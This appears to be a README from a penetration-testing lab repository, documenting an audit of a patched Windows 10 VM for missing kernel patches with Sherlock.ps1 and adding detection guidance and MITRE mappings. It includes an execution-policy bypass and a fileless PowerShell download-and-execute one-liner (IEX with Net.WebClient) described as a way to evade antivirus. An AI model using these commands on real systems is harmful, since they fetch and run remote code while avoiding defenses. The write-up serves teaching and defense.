


> **English** | [Italiano](README.md)

# Windows Automated Vulnerability Assessment: Kernel Exploits Auditing (Sherlock)

> - **Phase:** System Exploitation - Privilege Escalation - Windows Automated Vulnerability Assessment
> - **Visibility:** Medium - fileless Sherlock execution via IEX/Net.WebClient generates identifiable HTTP traffic; PowerShell Script Block Logging (Event ID 4104) records the code downloaded and executed in memory
> - **Prerequisites:** PowerShell shell with standard user on the Windows target machine; outbound HTTP connectivity for fileless download (or local path to the Sherlock.ps1 file); non-restrictive PowerShell execution policy or bypass with `-ExecutionPolicy Bypass`
> - **Output:** EXPLOIT-015 (Windows kernel vulnerability audit via Sherlock - severity Informational, system is patched); confirmed absence of MS10-015, MS14-058, MS15-051, MS16-032 on the target

- Operational Environment: Windows 10 22H2 (Target VM)
- Initial Access Vector (Simulated): Non-privileged base user (`nick`).
- Toolchain Used: PowerShell (Native LotL), Sherlock.ps1 (in-memory)
- Objective: Conduct an automated scan searching for known Windows Kernel vulnerabilities (Missing Patches / MS-Bulletins) to evaluate potential local Privilege Escalation (LPE) vectors, operating via Fileless execution to bypass static disk inspection.

---

## Executive Summary

This assessment documents the execution of an automated audit aimed at identifying the absence of critical security patches (historical CVEs) in the Windows operating system kernel. In order to maintain a low operational profile and circumvent Antivirus (AV) controls based on signatures and File Integrity Monitoring (FIM), the auditing was conducted by leveraging native operating system features (Living off the Land) to execute the scanning payload directly in RAM (Fileless Execution).

The analysis confirmed the correct application of cumulative security patches, demonstrating that the target is not vulnerable to historical kernel-based LPE vectors.

---

## Phase 1: In-Memory Execution (Fileless & OPSEC)

The use of widely known public scripts (such as `Sherlock.ps1`) carries a high detection risk if written to disk, since their hashes are universally present in Endpoint Detection and Response (EDR) and Microsoft Defender solution databases.

To evade static detection, in-memory execution was chosen. Initially, the PowerShell execution policy was relaxed at the process level, followed by using the `Invoke-Expression (IEX)` cmdlet in combination with the `Net.WebClient` object. This technique allows fetching the remote source and passing it directly to the running PowerShell interpreter, without the file ever transiting on persistent disk.

Execution Commands:

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
```

---

**Finding ID:** `EXPLOIT-015` | **Severity:** `Informational`

## Phase 2: Vulnerability Auditing & Results Analysis

Once the script functions were allocated in memory, the main module (`Find-AllVulns`) was invoked to begin patch enumeration. The script analyzes system builds and queries WMI to identify the absence of security packages released by Microsoft (MS-Bulletins).

The scan output returned valuable information about the system's security posture:

- Absence of vulnerable libraries (Structural Hardening): The error returned on `C:\Windows\system32\atmfd.dll` confirms that the Microsoft Windows Adobe Type Manager Library component, historically abused for Remote Code Execution and LPE (e.g., MS15-078), has been removed in compliance with the architectural updates of recent Windows 10 versions.
- Patch Validation: The audit cyclically verified critical CVEs that allow the transition from User Mode to Ring 0 (Kernel). Among these, the following were verified and discarded:
    - MS10-015 / CVE-2010-0232 (User Mode to Ring KiTrap0D)
    - MS14-058 / CVE-2014-4113 (TrackPopupMenu Null Pointer Dereference)
    - MS15-051 / CVE-2015-1701 (ClientCopyImage Win32k)
    - MS16-032 / CVE-2016-0099 (Secondary Logon Handle)

For each verified vector, the script confirmed the status `VulnStatus : Not Vulnerable`.





---

## Blue Team: Detection and Countermeasures (Detection Engineering)

Although the targeted exploitation of historical CVEs failed thanks to correct Patch Management posture, the execution technique (Fileless download-and-execute via PowerShell) represents an advanced TTP (Tactics, Techniques, and Procedures) that must be monitored.

Detection Strategies:

- AMSI (Anti-Malware Scan Interface): In-memory execution is the primary use case for which AMSI was designed. Ensure that local security solutions support and integrate AMSI to inspect the content of PowerShell, VBScript, and macro scripts before execution by the interpreter, regardless of their origin (disk or network).
- PowerShell Logging: Enable via GPO the Script Block Logging features (Event ID 4104). This allows the SIEM to capture the entire executed code block (including the de-obfuscated Sherlock payload), even if the attacker attempts to evade standard policies.
- Process Monitoring / Command Line Auditing: Create detection rules for anomalous use of download cmdlets associated with `IEX`, such as `Net.WebClient.DownloadString` or `Invoke-WebRequest`, especially if executed by processes in non-administrative contexts.

---

## Reference tools

| Tool | Type | Technique/Access | Primary Use Case |
| :--- | :--- | :--- | :--- |
| `Sherlock.ps1` | Vulnerability scanner | PowerShell - Active | Automated scan of 15+ known Windows kernel and privilege escalation CVEs |
| `WinPEAS` | Automated scanner | CLI - Active | Complete Windows PrivEsc enumeration: CVE, services, credentials, misconfiguration |
| `PowerSploit` | PS framework | PowerShell | Suite of PowerShell modules for post-exploitation, includes `Find-AllVulns` |
| `BeRoot` | Privilege checker | CLI - Python | Scanner for Windows misconfigurations: services, DLL hijacking, AlwaysInstallElevated |
| `Windows Exploit Suggester` | CVE suggester | Python | Compares `systeminfo` output against CVE database to suggest applicable exploits |
| `Get-HotFix` | PowerShell cmdlet | Native PowerShell | Native Windows cmdlet to list installed KBs and verify PrivEsc patches |
| `wmic qfe list` | WMI query | Native CLI | List installed patches via WMI, alternative to Get-HotFix |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | MITRE ID | Action Description |
|---------|---------|----------|-------------------------|
| Execution | Command and Scripting Interpreter: PowerShell | `T1059.001` | Use of native PowerShell to retrieve and execute the payload from the network. |
| Defense Evasion | Fileless Storage: In-Memory | `T1027` | Execution of the auditing script directly in RAM (via IEX) to bypass FIM/AV controls. |
| Defense Evasion | Bypass Execution Flow | `T1036` | Use of Set-ExecutionPolicy Bypass to evade local restrictions on unsigned script execution. |
| Discovery | System Information Discovery | `T1082` | Automation of the cross-check between OS version and installed WMI patches to identify Kernel-level flaws. |
| Privilege Escalation | Exploitation for Privilege Escalation | `T1068` | Primary objective (failed due to hardening) of identifying escalation vectors based on unpatched vulnerabilities. |

---

> **Note:** All documented activities were conducted in a virtualized lab environment. The use of Sherlock.ps1 for Windows vulnerability auditing was performed exclusively on virtual machines owned by the author. No technique was applied to real or third-party systems without explicit authorization.
